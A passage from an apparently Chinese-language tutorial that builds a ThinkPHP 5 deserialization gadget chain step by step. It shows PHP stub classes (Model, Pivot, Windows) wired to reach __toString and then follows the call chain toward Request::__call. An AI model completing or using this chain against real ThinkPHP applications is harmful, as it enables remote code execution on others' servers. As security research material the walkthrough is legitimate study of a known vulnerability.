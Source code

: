 这不就好起来了？于是你给自己的payload补充上：（命名空间就用原程序的）

```php
namespace think\model;
use think\Model;
class Pivot extends Model{
}
```

细心的你不会忽略了use think\Model，那么Model这个抽象类也得声明一下：

```php
namespace think;
abstract class Model{
}
```

顺便再给Windows类里的$this->files赋值了，然后你得到了这个：

```php
namespace think;
abstract class Model{
}
namespace think\process\pipes;
use think\Model\Pivot;
class Windows
{
    private $files = [];
    function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
}
```

行了，现在能调用到`__toString`了，你接着往下看调用链。快速回到[调用链图](#下图是Mochazz 大佬画的非常优雅的一张调用链图)。

看到了toArray的192行。看图里意思应该是可以调用任意类的visible方法，可是它接下来没有再提到调用了visible的什么，而是转到了Request的`__call`方法，你知道`__call`方法是在在对象中调用一个不可访问方法时会被调用。 而分析过Request类的你知道它并没有visible这个方法，所以如果让$relation=new Request()的话是符合这个调用链的逻辑的。

那么就来看看$relation是从哪儿来的：

![image-20220421172427960](TP5反序列化利用链.assets/image-20220421172427960.png)
